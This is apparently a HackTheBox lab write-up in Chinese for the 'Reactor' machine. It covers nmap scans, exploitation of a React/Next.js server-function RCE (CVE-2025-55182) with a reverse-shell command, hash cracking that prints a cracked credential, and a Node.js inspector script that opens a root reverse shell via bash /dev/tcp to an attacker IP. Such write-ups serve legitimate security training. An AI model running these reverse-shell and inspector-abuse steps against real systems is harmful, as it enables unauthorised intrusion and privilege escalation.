





# HTB Season11 - Reactor

## 信息收集

### 端口扫描

```bash
nmap -p- --min-rate 1000 10.129.7.103
```

目标只开放22端口

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-01 09:32 +0800
Warning: 10.129.7.103 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.7.103
Host is up (8.0s latency).
Not shown: 54860 closed tcp ports (reset), 10673 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 311.21 seconds
```

#### 详细扫描

```bash
nmap -p22,3000 -sCV -min-rate 1000 10.129.7.103
```

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-01 09:55 +0800
Nmap scan report for 10.129.7.103
Host is up (0.45s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ce:fd:0d:82:c0:23:ed:6e:4b:ea:13:fa:4f:ea:ef:b7 (ECDSA)
|_  256 f8:44:c6:46:58:7a:39:21:ef:16:44:e9:58:c2:f3:62 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
|     x-nextjs-cache: HIT
|     x-nextjs-prerender: 1
|     x-nextjs-stale-time: 4294967294
|     X-Powered-By: Next.js
|     Cache-Control: s-maxage=31536000, 
|     ETag: "p02u6gnhufd8t"
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 17175
|     Date: Mon, 01 Jun 2026 01:55:38 GMT
|     Connection: close
|     <!DOCTYPE html><html lang="en"><head><meta charSet="utf-8"/><meta name="viewport" content="width=device-width, initial-scale=1"/><link rel="stylesheet" href="/_next/static/css/414e1be982bc8557.css" data-precedence="next"/><link rel="preload" as="script" fetchPriority="low" href="/_next/static/chunks/webpack-db0a529a99835594.js"/><script src="/_next/static/chunks/4bd1b696-80bcaf75e1b4285e.js" async=""></script><script src="/_next/static/chunks/517-d083b552e04dead1.js" async=""></script><script s
|   HTTPOptions: 
|     HTTP/1.1 400 Bad Request
|     vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch
|     Allow: GET
|     Allow: HEAD
|     Cache-Control: private, no-cache, no-store, max-age=0, must-revalidate
|     Date: Mon, 01 Jun 2026 01:55:44 GMT
|     Connection: close
|   Help, NCP, RPCCheck: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch
|     Allow: GET
|     Allow: HEAD
|     Cache-Control: private, no-cache, no-store, max-age=0, must-revalidate
|     Date: Mon, 01 Jun 2026 01:55:46 GMT
|_    Connection: close
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.99%I=7%D=6/1%Time=6A1CE699%P=x86_64-pc-linux-gnu%r(Get
SF:Request,1A0E,"HTTP/1\.1\x20200\x20OK\r\nVary:\x20RSC,\x20Next-Router-St
SF:ate-Tree,\x20Next-Router-Prefetch,\x20Next-Router-Segment-Prefetch,\x20
SF:Accept-Encoding\r\nx-nextjs-cache:\x20HIT\r\nx-nextjs-prerender:\x201\r
SF:\nx-nextjs-stale-time:\x204294967294\r\nX-Powered-By:\x20Next\.js\r\nCa
SF:che-Control:\x20s-maxage=31536000,\x20\r\nETag:\x20\"p02u6gnhufd8t\"\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20171
SF:75\r\nDate:\x20Mon,\x2001\x20Jun\x202026\x2001:55:38\x20GMT\r\nConnecti
SF:on:\x20close\r\n\r\n<!DOCTYPE\x20html><html\x20lang=\"en\"><head><meta\
SF:x20charSet=\"utf-8\"/><meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\"/><link\x20rel=\"stylesheet\"\x20href=\"
SF:/_next/static/css/414e1be982bc8557\.css\"\x20data-precedence=\"next\"/>
SF:<link\x20rel=\"preload\"\x20as=\"script\"\x20fetchPriority=\"low\"\x20h
SF:ref=\"/_next/static/chunks/webpack-db0a529a99835594\.js\"/><script\x20s
SF:rc=\"/_next/static/chunks/4bd1b696-80bcaf75e1b4285e\.js\"\x20async=\"\"
SF:></script><script\x20src=\"/_next/static/chunks/517-d083b552e04dead1\.j
SF:s\"\x20async=\"\"></script><script\x20s")%r(Help,2F,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(NCP,2F,"HTTP/1\.1\
SF:x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(HTTPOption
SF:s,10C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nvary:\x20RSC,\x20Next-Rout
SF:er-State-Tree,\x20Next-Router-Prefetch,\x20Next-Router-Segment-Prefetch
SF:\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nCache-Control:\x20private,\x20no
SF:-cache,\x20no-store,\x20max-age=0,\x20must-revalidate\r\nDate:\x20Mon,\
SF:x2001\x20Jun\x202026\x2001:55:44\x20GMT\r\nConnection:\x20close\r\n\r\n
SF:")%r(RTSPRequest,10C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nvary:\x20RS
SF:C,\x20Next-Router-State-Tree,\x20Next-Router-Prefetch,\x20Next-Router-S
SF:egment-Prefetch\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nCache-Control:\x2
SF:0private,\x20no-cache,\x20no-store,\x20max-age=0,\x20must-revalidate\r\
SF:nDate:\x20Mon,\x2001\x20Jun\x202026\x2001:55:46\x20GMT\r\nConnection:\x
SF:20close\r\n\r\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:Connection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.35 seconds
```

---

### 漏洞侦察

REACTORWATCH v3.2.1



---

## CVE-2025-55182/66478

[Exploit](https://github.com/Spritualkb/CVE-2025-55182-exp)

- 漏洞描述：
  React 中存在一个安全漏洞，该漏洞允许未经身份验证的远程代码执行，其原理是利用 React 解码发送到 React 服务器函数端点的有效负载的方式中的一个缺陷
- 漏洞影响：
  - 9.0、19.1.0、19.1.1 和 19.2.0
    - react-server-dom-webpack
    - react-server-dom-parcel
    - react-server-dom-turbopack
  - Next.js 16.x：< 16.0.7
  - Next.js 15.x：所有未打补丁的版本
  - Next.js 14.x Canary：>= 14.3.0-canary.77


### Shell_node

```bash
python exp.py http://10.129.7.103:3000 --revshell 10.10.16.233 4444
```



发现**reactor.db**文件



爆破**hash**

```bash
hashcat -m 0 -a 0 hash wordlist.txt
```

## user_Flag

成功碰撞出**engineer**的**hash**

`39d97110eafe2a9a68639812cd271e8e:reactor1`

### root_Flag

通过侦察发现`nodejs`以**root**权限运行本地调试，端口为9229



将目标端口转发到本地9229端口

```bash
ssh -L 9229:10.10.16.233:9229 engineer@10.129.7.103 -fN
```

**rce.js**

```json
const WebSocket = require('ws');

const ws = new WebSocket('ws://127.0.0.1:9229/39e87d49-1dfc-4714-8cc6-e189cd8fe1a8'); 

ws.on('open', function () {
    console.log('connected');

    ws.send(JSON.stringify({
        id: 1,
        method: "Runtime.evaluate",
        params: {
            expression: `
                this.constructor.constructor('return process')()
                .mainModule.require('child_process')
                .exec('bash -c "bash -i >& /dev/tcp/10.10.16.233/4444 0>&1;"')
                .toString()
            `
        }
    }));
});

ws.on('message', function (data) {
    console.log(data.toString());
});

```

执行**rce.js**

```bash
node rce.js
```




